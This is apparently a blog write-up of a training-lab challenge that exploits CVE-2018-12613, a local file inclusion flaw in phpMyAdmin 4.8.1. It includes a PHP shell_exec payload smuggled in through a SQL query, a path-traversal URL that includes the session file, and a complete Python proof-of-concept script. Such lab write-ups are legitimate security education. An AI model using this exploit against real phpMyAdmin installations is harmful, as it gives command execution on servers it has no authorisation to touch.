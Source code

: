 ```yaml
---
layout: post
title: AttackDefense.com [LFI] - CVE-2018-12613 Exploit
date: 2018-11-26 18:46 -0300
categories: [AttackDefense.com, ctf, writeups, LFI]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

An attacker might get administrative access to a web application. However, this does not automatically mean that the web server can be compromised. In cases where a SaaS application is made available to users, it is routine to give each user admin access to his own instance of the web application e.g. a managed hosted Wordpress site. In such scenario, the attacker who will begin accessing the application as a managed administrative user will have to figure out how to exploit the administrative interface to get a shell on the server. In some cases, it might be possible to do privilege escalation as well.

In the exercise below, the attacker has administrative access to the web application and needs to find a local file inclusion attack to get important files from the server.

PHPMyAdmin is a free and open source web based administration tool for MySQL and MariaDB. It is developed in PHP and Javascript. 

PHPMyAdmin (4.8.1) is vulnerable to a Local File Inclusion documented in CVE-2018-12613.

The following username and passwords may be used to explore the application and/or find a vulnerability which might require authenticated access:

- Username: pentester		
- Password: password1

Objective: Your task is to find and exploit this vulnerability.


Level difficulty: Intermediate

Category: Webapps CVEs > Local File Inclusion

### Solution

At first, I was provided with the PHPMyAdmin web application with a functional user account and password. PHPMyAdmin is a free and open source administration tool for MySQL and MariaDB. As a portable web application written primarily in PHP, it has become one of the most popular MySQL administration tools, especially for web hosting services. Using the provided credentials, I authenticated in the administrative panel of the application.

![Image of AttackDefense 2018](/uploads/adlfi2/image8.png)

![Image of AttackDefense 2018](/uploads/adlfi2/image2.png)

After performing an research of the application version, I discovered the following public exploit description:

- [https://www.exploit-db.com/exploits/44928](https://www.exploit-db.com/exploits/44928)

![Image of AttackDefense 2018](/uploads/adlfi2/image6.png)

One of the main functionality of PHPMyAdmin (4.8.1) is to execute SQL Queries. We can use the following form:

- [http://byk4piiac0ltnaqgssdnhrjdr.public1.attackdefenselabs.com/server_sql.php](http://byk4piiac0ltnaqgssdnhrjdr.public1.attackdefenselabs.com/server_sql.php)

![Image of AttackDefense 2018](/uploads/adlfi2/image1.png)

According to the exploit description, we can both create cache files of all commands executed within a session and also include those files in order to execute malicious code. Here is my example of the payload:

```php
select '<?php $output = shell_exec("ls -al; date; id;");echo "<pre>$output</pre>";exit;?>'
```

![Image of AttackDefense 2018](/uploads/adlfi2/image4.png)

We can include the cache file in order to execute our malicious code as such:

- [http://byk4piiac0ltnaqgssdnhrjdr.public1.attackdefenselabs.com/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php5/sess_5s02743ikru46a31086rrjr8jras81jq](http://byk4piiac0ltnaqgssdnhrjdr.public1.attackdefenselabs.com/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php5/sess_5s02743ikru46a31086rrjr8jras81jq)

![Image of AttackDefense 2018](/uploads/adlfi2/image7.png)

All good, the challenge is complete! I decided to create this PoC as there was no one publicly available exploit at the moment of this article. Here is my Python exploit: 

```python
import requests

VALID_PHPMYADMIN_URL = "http://byk4piiac0ltnaqgssdnhrjdr.public1.attackdefenselabs.com:80"

VALID_PHPMYADMIN_SESSION = "5s02743ikru46a31086rrjr8jras81jq"

burp0_url = VALID_PHPMYADMIN_URL + "/import.php"
burp0_cookies = {"phpMyAdmin": VALID_PHPMYADMIN_SESSION, "pma_lang": "en", "pmaUser-1": "%7B%22iv%22%3A%22N2lLHGoe2cuUN5uvAbz8ww%3D%3D%22%2C%22mac%22%3A%222b02670d8802823d99c3ccaf1f0ece9f2eb4c536%22%2C%22payload%22%3A%22mR69lSBATnU%2B%2Bs5jL0c3yw%3D%3D%22%7D", "pmaAuth-1": "%7B%22iv%22%3A%22xoIEoAgAvAxL%5C%2F%5C%2Fa3c0iX8Q%3D%3D%22%2C%22mac%22%3A%22243d87482efacdde27e3d2a6c6e85ae3b903af66%22%2C%22payload%22%3A%22yl27EG%5C%2FIUngUnyZIKNa8O45enMc8iZyHjFpLmiDkWSs%3D%22%7D"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Connection": "close"}
burp0_data={"is_js_confirmed": "0", "token": "?[I568P@ei7B?OUd", "pos": "0", "goto": "server_sql.php", "message_to_show": "Your SQL query has been executed successfully.", "prev_sql_query": '', "sql_query": "select '<?php $output = shell_exec(\"ls -al; date; id;\");echo \"<pre>$output</pre>\";exit;?>'", "sql_delimiter": ";", "show_query": "1", "fk_checks": "0", "fk_checks": "1", "SQL": "Go", "ajax_request": "true", "ajax_page_request": "true", "_nocache": "1543255823534938840", "token": "?[I568P@ei7B?OUd"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print "While autentificated:"

print "- Please check: " + VALID_PHPMYADMIN_URL + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_" + VALID_PHPMYADMIN_SESSION

print "- Please check: " + VALID_PHPMYADMIN_URL + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php5/sess_" + VALID_PHPMYADMIN_SESSION
```

![Image of AttackDefense 2018](/uploads/adlfi2/image9.png)

![Image of AttackDefense 2018](/uploads/adlfi2/image5.png)

![Image of AttackDefense 2018](/uploads/adlfi2/image3.png)

